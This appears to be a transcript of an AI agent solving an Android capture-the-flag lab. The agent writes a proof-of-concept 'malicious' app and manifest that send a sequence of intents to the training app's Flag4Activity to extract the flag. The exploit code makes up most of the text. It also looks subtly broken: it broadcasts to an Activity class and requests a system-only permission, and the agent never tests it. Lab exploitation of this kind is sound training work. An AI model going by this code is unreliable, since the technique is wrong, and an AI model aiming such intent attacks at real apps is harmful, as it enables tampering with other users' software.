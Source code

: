 Therefore, to solve the challenge, we need to send a sequence of intents with the following actions: `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and then any action.

Now, let's construct the malicious Android application to send these intents. I'll create `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.


Function Call: id=None args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Target component\n        String targetPackage = "io.hextree.attacksurface";\n        String targetClass = "io.hextree.attacksurface.activities.Flag4Activity";\n\n        // Create the intents with the required actions\n        Intent prepareIntent = new Intent();\n        prepareIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        prepareIntent.setAction("PREPARE_ACTION");\n\n        Intent buildIntent = new Intent();\n        buildIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        buildIntent.setAction("BUILD_ACTION");\n\n        Intent getFlagIntent = new Intent();\n        getFlagIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        getFlagIntent.setAction("GET_FLAG_ACTION");\n\n        Intent triggerIntent = new Intent();\n        triggerIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        triggerIntent.setAction("TRIGGER_ACTION");\n\n        // Send the intents in sequence\n        sendBroadcast(prepareIntent);\n        Log.i("MaliciousApp", "Sent PREPARE_ACTION");\n        sendBroadcast(buildIntent);\n        Log.i("MaliciousApp", "Sent BUILD_ACTION");\n        sendBroadcast(getFlagIntent);\n        Log.i("MaliciousApp", "Sent GET_FLAG_ACTION");\n        sendBroadcast(triggerIntent);\n        Log.i("MaliciousApp", "Sent TRIGGER_ACTION");\n\n        finish(); // Close the activity after sending the intents\n    }\n}\n', 'file_path': 'MaliciousFlag4PoC.java'} name='write_to_file'
----------
Role: tool
Function Call: None
----------
Role: model
Function Call: id=None args={'file_path': 'AndroidManifest_PoC.xml', 'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousapp">\n\n    <uses-permission android:name="android.permission.SEND_BROADCAST" />\n\n    <application\n        android:label="MaliciousApp">\n        <activity android:name=".MaliciousFlag4PoC"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n\n</manifest>\n'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---